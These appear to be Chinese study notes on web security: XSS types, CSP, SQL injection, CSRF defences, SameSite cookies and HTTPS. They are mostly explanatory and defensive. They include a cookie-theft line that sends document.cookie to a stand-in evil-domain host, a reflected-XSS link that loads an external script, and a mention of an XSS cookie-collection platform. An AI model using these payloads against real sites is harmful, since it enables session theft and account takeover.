

# 安全

## 思维导图



## XSS

Cross-site scripting **跨网站脚本攻击**

通过修改 HTML 节点或者执行 JS 代码来攻击网站。

**Xss 攻击可以分为三类: 存储(也称为持久性)、反射(也称为非持久性)或基于 dom。**

*XSS是代碼注入的一种，它允许恶意使用者将程式码注入到网页上，其他使用者在观看网页时就会受到影响*

还有。

### 反射型 XSS 攻击
```
当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候 -- 当新页面载入的时候原始用户数据中的任何脚本都会被执行

举个例子，假如有个站点搜索函数，搜索项被当作URL参数进行编码，这些搜索项将随搜索结果一同显示。攻击者可以通过构造一个包含恶意脚本的搜索链接作为参数（例如 http://mysite.com?q=beer\<script%20src="http://evilsite.com/tricky.js"></script> ），然后把链接发送给另一个用户。如果目标用户点击了这个链接，当显示搜索结果时这个脚本就会被执行。正如上述讨论的，这促使攻击者获取了所有需要以目标用户进入站点的信息 -- 可能会购买物品或分享联系人信息。
```
### 上传用户的cookie

利用获取 cookie 的方式，将 cookie 传入入侵者的服务器上，入侵者就可以模拟 cookie 登录网站，对用户的信息进行篡改

```plain
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 持久{存储}型 XSS 攻击

恶意脚本存储在站点中，然后再原样地返回给其他用户，在用户不知情的情况下执行

### 怎么预防
```
 防范 XSS 攻击的最好方式就是删除或禁用任何可能包含可运行代码指令的标记。对 HTML 来说，这些包括类似 <script>, <object>, <embed>,和 <link> 的标签。
```
许多Web框架默认情况下都会对来自HTML表单的用户数据进行过滤。

### xss收信平台

黑客并不会在有xss漏洞的地方只插入一段alert(document.cookie)，因为黑客又看不到

黑客到了这，将会利用javascript代码，将获取到的cookies发送到自己搭建好的一个平台，并记录下以便利用。

这里介绍一个xss platform——xsser，也就是xss收信平台，

### 一次模拟攻击

```plain

```

这这是一个img图片标签，src指向图片的源地址为‘x’，很明显这个地址不存在。

所以就将会执行img标签里面的onerror的属性内容。

其内容是通过产生一个script代码标签，并将代码的源地址指向xsser平台。通过访问http://192.168.1.103/xss/SMA9ST这个地址，将会获得以下javascript代码

## Content Security Policy (CSP)

内容安全策略(CSP)是一个增加的安全层，它有助于检测和减轻某些类型的攻击，包括跨网站脚本攻击(XSS)和数据注入攻击。 这些攻击被用于从数据盗窃到网站破坏到恶意软件传播的各个方面。

要启用 CSP，您需要配置您的 web 服务器返回 Content-Security-Policy HTTP 报头

csp 的主要目标是减轻和报告 XSS 攻击。 Xss 攻击利用了浏览器对从服务器接收的内容的信任。 恶意脚本由受害者的浏览器执行，因为浏览器信任内容的来源，即使它不是来自它看起来来自的地方。

###

## SQL注入

成功的注入攻击可能会伪造身份信息、创建拥有管理员权限的身份、访问服务器上的任意数据甚至破坏/修改数据使其变得无法使用

### 解决

有种方式便是将用户输入中任何在SQL语句中有特殊含义的字符进行转义

Web框架通常会为你进行这种转义操作。例如 Django，可以确保任何传递给查询集合 (model查询)的用户数据都是已经转义过的

## CSRF

Cross-site request forgery  跨站请求伪造

CSRF是跨站请求伪造，不攻击网站服务器，而是冒充用户在站内的正常操作。通常由于服务端没有对请求头做严格过滤引起的。



### 怎么攻击
```
<font style="color:#F5222D;">CSRF 就是利用用户的登录态发起恶意请求</font>
```

> John是一个恶意用户，他知道某个网站允许已登陆用户使用包含了账户名和数额的HTTP POST请求来转帐给指定的账户。
>
> 通过伪造银行的转账接口，
>
> John 构造了包含他的银行卡信息和某个数额做为隐藏表单项的表单，然后通过Email发送给了其它的站点用户（还有一个伪装成到 “快速致富”网站的链接的提交按钮）
>
> 如果某个用户点击了提交按钮，一个 HTTP POST 请求就会发送给服务器，该请求中包含了交易信息以及浏览器中与该站点关联的所有客户端cookie（将相关联的站点cookie信息附加发送是正常的浏览器行为。服务器会检查这些cookie，以判断对应的用户是否已登陆且有权限进行上述交易。
>
> 最终的结果就是任何已登陆到站点的用户在点击了提交按钮后都会进行这个交易。John发财啦！

### 怎么预防
```
**<font style="color:#F5222D;">总而言之，CSRF是一个相对简单的漏洞。提高安全意识，增加对token，referer的认证，可以有效减少CSRF。</font>**
```
* Get 请求不对数据进行修改
* 不让第三方网站访问到用户 Cookie
* 阻止第三方网站请求接口
* 请求时附带验证信息，比如验证码或者 token
* 验证 Referer （通过验证 Referer 来判断该请求是否为第三方网站发起的 （来自本站伪造的请求就不可用了，这种判断没什么用）
* 可以对 Cookie 设置 SameSite 属性。该属性设置 Cookie 不随着跨域请求发送

#### csrf\_token

我们在网页视图生成的时候往表单上添加一个hidden域内容为csrf\_token，然后每次提交都带上这个csrf\_token，服务器检测之前发送过来的csrf\_token是否一致，是的话就说明是正常提交，非伪造请求

由于外域受到同源策略限制，无法读取攻击目标域下的csrf\_token字段

同域下怎么办呢？由于同域下要读取csrf\_token字段，必须要通过JavaScript来完成，如果目标域下没有xss漏洞，我们就无法注入自己的JavaScript脚本，也就无法获取到该csrf\_token，一样可以成功防御CSRF攻击

### Cookie SameSite

1

None

网站可以选择显式关闭SameSite属性，将其设为None。不过，前提是**必须同时设置Secure**属性（Cookie 只能通过 HTTPS 协议发送），否则无效。
```
> Set-Cookie: widget\_session=abc123; SameSite=None; Secure
```
设为None，意味着Cookie可以通过HTTPS带给第三方网站了，

2

Lax规则稍稍放宽，大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外。
```
<font style="background-color:#FADB14;">设置了Strict或Lax以后，基本就杜绝了 CSRF 攻击。当然，前提是用户浏览器支持 SameSite 属性。</font>

| 请求类型 | 示例 | 正常情况 | Lax |
| :--- | :---: | ---: | :--- |
| 链接 | <code></code> | 发送 Cookie | 发送 Cookie |
| 预加载 | <code><link rel="prerender" href="..."/></code> | 发送 Cookie | 发送 Cookie |
| GET 表单 | <code><form method="GET" action="..."></code> | 发送 Cookie | 发送 Cookie |
| POST 表单 | <code><form method="POST" action="..."></code> | 发送 Cookie | 不发送 |
| iframe | <code><iframe src="..."></iframe></code> | 发送 Cookie | 不发送 |
| AJAX | `$.get("...")` | 发送 Cookie | 不发送 |
| Image | <code></code> | 发送 Cookie | 不发送 |
```
#### Chrome关于SameSite属性的修改
```
<font style="color:#F5222D;">Chrome 计划将Lax变为默认设置</font>。
```
SameSite属性的默认值Lax只允许get请求携带Cookie，这显然没法满足。

***

第三方网站无法登陆的问题：

> chrome升级到80版本之后(准确的说是78版本之后)，cookie的SameSite属性默认值由None变为Lax，这个才是本次事件的根本原因。

我们将SameSite属性的值改为None，同时将secure属性设置为true。这也意味着你的后端服务域名必需使用https

协议访问。

> 可以通过chrome://flag #cookies-without-same-site-must-be-secure
>
> 意思是没有SameSite限制，必须设置Secure
>
> 关闭这个功能，就不需要设置Secure设置了
```
<font style="color:#F5222D;">设置sameSite为None之后，CSRF的风险又回来了。</font>

<font style="color:#F5222D;"></font>

<font style="color:#F5222D;">所以，换成token的检验方式而不依赖Cookie，或许才是更合理的解决方案</font>
```
## 安装一个DVWA来模拟web hack

## 安全策略

### 使用HTTPS

HTTPS 会加密你的用户和服务器之间传输的信息。这使得登录认证、cookise、POST数据及头信息不易被攻击者获得。

### 不要相信来自浏览器的数据

最重要的就是不要相信来自浏览器的数据。包括在URL参数中的GET请求、POST请求、HTTP头、cookies、用户上传的文件等等。一定要每次都检查用户输入的信息。每次都预想最坏的结果。

### 设置CSP头

## 漏洞报告平台

乌云

## 渗透测试

经客户授权，采用可控制、非破坏性质的方法和手段，完全模拟黑客可能使用的攻击技术和漏洞发现技术，对目标系统的安全做深入的探测，发现系统最脆弱的环节。

## 参考

<https://www.freebuf.com/column/186939.html>


> 更新: 2020-07-13 10:23:38  
> 原文: <https://www.yuque.com/u3641/dxlfpu/te1l3w>